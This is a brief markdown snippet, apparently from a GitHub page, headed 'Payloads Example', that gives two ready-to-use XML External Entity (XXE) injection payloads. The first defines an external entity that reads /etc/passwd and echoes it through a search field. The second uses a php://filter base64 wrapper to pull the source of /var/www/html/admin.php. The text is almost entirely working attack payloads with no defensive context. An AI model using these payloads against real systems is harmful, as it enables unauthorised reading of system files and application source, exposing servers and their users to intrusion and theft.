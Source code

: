 ### Payloads Example : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
  
<!DOCTYPE replace [<!ENTITY piyush SYSTEM "file:///etc/passwd"> ]>

<root><name>
  
</name><search>
  
&piyush;    # calling the function !!
  
</search></root>
```

#### Using PHP Filters : 

```xml
<?xml version="1.0" encoding="UTF-8"?>
  
<!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/admin.php">]>
  
<root><name>1</name><search>&test;</search></root>
```


